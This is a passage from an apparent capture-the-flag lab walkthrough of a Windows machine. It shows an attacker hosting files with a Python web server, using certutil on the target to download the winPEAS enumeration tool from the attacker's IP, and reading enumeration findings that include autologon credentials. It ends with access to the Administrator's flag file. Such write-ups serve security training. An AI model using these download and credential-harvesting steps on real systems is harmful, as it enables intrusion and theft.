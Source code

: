> sudo python3 -m http.server 80

On the target system we'll use the "certutil" program that is present on most if not all versions of Windows by default. This program has a download function built into it, and so we can download the file as following:

```
c:\Users\Alfred\Desktop>certutil.exe -urlcache -split -f http://10.10.14.7/winPEASx86.exe winPEASx86.exe
certutil.exe -urlcache -split -f http://10.10.14.7/winPEASx86.exe winPEASx86.exe
****  Online  ****
  000000  ...
  17e800
CertUtil: -URLCache command completed successfully.

c:\Users\Alfred\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Alfred\Desktop

01/14/2022  10:00 AM    <DIR>          .
01/14/2022  10:00 AM    <DIR>          ..
01/14/2022  08:14 AM                34 user.txt
01/14/2022  09:55 AM         1,566,720 winPEASx86.exe
               2 File(s)      1,566,754 bytes
               2 Dir(s)  19,481,919,488 bytes free

c:\Users\Alfred\Desktop>
```

Winpeas generates a lot of output, and going through it reveals the following interesting discoveries:

* LSA protection is not enabled
* CredentialGuard is not enabled
* No AV was detected
* WDigest is enabled - plaintext password extraction is possible
* AMSI support: False
* c:\users\administrator: Alfred \[AllAccess]
* AutoLogon credentials found: alfred:Welcome1!
* Firewall Enabled: True

## Root Flag without Privilege Escalation

The user "alfred" seems to have "AllAccess" to the "Administrator" user's folders. Let's see if we can read the root flag:

```
c:\Users\Administrator\Desktop>dir /a
dir /a
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of c:\Users\Administrator\Desktop

12/10/2017  06:50 PM    <DIR>          .
12/10/2017  06:50 PM    <DIR>          ..
12/10/2017  06:08 PM               282 desktop.ini
01/14/2022  08:14 AM                34 root.txt
               2 File(s)            316 bytes
               2 Dir(s)  19,490,947,072 bytes free

c:\Users\Administrator\Desktop>type root.txt
type root.txt
```